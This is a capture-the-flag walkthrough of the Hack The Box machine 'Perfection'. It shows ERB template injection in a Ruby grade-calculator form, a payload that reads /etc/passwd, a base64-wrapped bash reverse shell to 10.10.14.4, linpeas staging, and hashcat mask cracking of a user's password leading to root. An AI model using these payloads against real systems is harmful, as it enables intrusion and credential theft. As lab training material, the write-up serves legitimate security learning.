


## Table of Contents

## Reconnaisance

To start off, we always run our `nmap` scan to see what ports are open and what services are running on the target machine.

```bash
nmap -sC -sV -oA HTB/Machines/Perfection/Perfection <machine_ip>
```



## Enumeration

Since we see that Port 80 is open, I usually like to start there. Usually Port 22 in these CTFs is not going to be the initial attack vector, so I like to start with the web server.

### Port 80 - HTTP (nginx)

Navigating to the machine IP address in the browser, we get a webpage. There's a form at the bottom of the page (not shown) that allows you to enter a name, grade and weight.


We can run any kind of directory enumeration tool we want. Common ones are `gobuster`, `wfuzz`, and `dirsearch`. I usually like to just run `gobuster`, but sometimes I run `dirsearch` (I like the pretty colors). I noticed it tends to run some things that `gobuster` doesn't.

```bash
dirsearch -u <machine_ip>
```


So `dirsearch` only returns an `/about` page. So it seems the homepage is the only page we can interact with. That's fine with me.

At the bottom of the page, we see that it's powered by `WEBrick 1.7.0`. If we look in `searchsploit` for exploits or CVE's, it returns no results, though.

I finally remember to check `Wappalyzer` and see that the site is using Ruby as its programming language of choice. A good thing to do during web enumeration is to interact with everything normally, as the website or developer would expect you to. This allows you to see what happens during normal use and can sometimes clue you in to what the vulnerability is or how to exploit it.

Doing that with this form, we see that it's taking our input, doing some sort of server calculation, then returning some value onto the page in HTML. This is a good sign that a template engine is being used and that we might be able to exploit it.

## Exploitation

We can fire up `Burp` and intercept the request to see what's going on and try some payloads from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby).

The way the form works is you only need to enter a single name, grade and weight in one row. The rest of the numeric fields can be 0 and the string fields can be anything. <u>The form will only calculate the first row of data</u>. The ERB payload we land on is:

```erb
<%= File.open('/etc/passwd').read %>
```

We need to URL encode it, and we get something along the lines of:

```txt
%0a%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%6
4%27%29%2e%72%65%61%64%20%25%3e
```

With all of that said and done, we can intercept the request with `Burp` then send it to Repeater with <kbd>Ctrl + R</kbd>. We can paste our payload in the `category1` parameter and send the request.



The contents of `/etc/passwd`

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

### Foothold

Moving to get a foothold now and expanding on our previous payload, we head over to [Revshells](https://revshells.com/) to generate a reverse shell payload. We can generate a `bash` reverse shell payload and paste it into the `category1` parameter. We need to base64 encode it, then pipe it to `base64 -d` on the target machine.

To get to this point, I had to try a few reverse shells before I found the one that worked and the method as well. Originally, I had just been trying a straight URL encoded netcat shell, but it would connect back to my machine and then after a few seconds, nginx would time out and the connection would be dropped. I finally landed on the below bash reverse shell payload.

```bash title="bash reverse shell payload"
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

```erb title="ERB payload (non-URL encoded)"
<%= system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEzMzcgMD4mMQ== |
base64 -d | bash') %>
```

```txt title="URL encoded ERB payload"
%0a%3c%25%3d%20%73%79%73%74%65%6d%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%6
1%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%
78%4e%43%34%30%4c%7a%45%7a%4d%7a%63%67%4d%44%34%6d%4d%51%3d%3d%20%7c%20%62%61%73
%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%29%20%25%3e
```

And on our own machine

```bash
nc -lvnp 1337
```

Send the URL encoded request above...


And just like that, we have user and are inside the user `susan`'s `/home` directory.


Time to move to escalating privileges and getting root.

At this point, I could go through and ugrade the shell to a `tty` shell, but I skipped that on this machine. The thought process was it's an easy rated machine, the privesc shouldn't be too difficult so I shouldn't _really_ be the user for too long. Anyway, on we go.

### Privilege Escalation

Looking around susan's home directory, we see there's a `Migration` directory and a `ruby_app` directory. If we go into the `Migration` directory and look around, we can see there is a `.db` file. We don't have a way to read the file, but generally it's good to run `strings` on it to see if there's anything interesting.

We get the following strings (formatted for readability):

```txt
Stephen Locke
154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrence
ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tyler
d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smith dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Miller
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Not much to do with these at the moment but copy them down and move on. We can curl or wget `linpeas` to the target after we host a python web server on our machine and download it on the target. I like to use port 8000 because it's easy to remember.

```python
python3 -m http.server 8000
```

We can run `linpeas` to see what vectors we have for privesc. I like running the `peass` family of binaries when I'm on a machine, but it is definitely a lot of output, takes a while, and to the uninitiated, it's really hard to go through. Sometimes you spot some things that you wouldn't have seen otherwise, though.


Neat. We find that there's some mails in the `/var/mail` directory. We can read them with `cat` and see that there's a mail from Tina who informs Susan the new password format (how nice of her). She says that all letters of the first name should be converted into lowercase. With the `strings` output we got from before, we have Susan's hashed password. We can use `hashcat` to crack it. The format of the password would be `susan_nasus_<numbers>`. The number is between 1 and 1,000,000 so the lowest would be 1 digit and the highest would be 7 digits.

We can use the following `hashcat` command to figure out the type of hash. `-a 3` tells `hashcat` to perform a mask attack. Executing without the `-m` flag tells it to try to determine the hash type.

```bash
hashcat -a 3 hash.txt "susan_nasus_?d?d?d?d?d?d?d"
```

I didn't get the screenshot of what `hashcat` told us the hash was, but believe me, it was a `sha256` hash. We can use the following command to crack the hash.

```bash
hashcat -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d" --show
```


From our `linpeas` output earlier, we found we were in the `sudoers` file and allowed to run all commands as root, which means, we just needed susan's password, and now we have it. A simple `sudo su`, enter susan's password and we're root.


## Conclusion

I really liked doing this machine. I think this was one of the first ones I did. Some lessons learned from this one:

- Really check `sudo -l` when you first get foothold.
  - [SUDO & SUID](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)
- `hashcat -a` without the `-m` attempts to guess the hash type and can be used to figure out hashes without throwing them at the wall in [CyberChef](https://gchq.github.io/CyberChef/).
- You can pipe `linpeas` output to `tee` and an outfile with `./linpeas.sh | tee linpeas.out`
  - Then you can read the file with `less -r linpeas.out`
  - `less` retains the color and highlights and can be read one page at a time
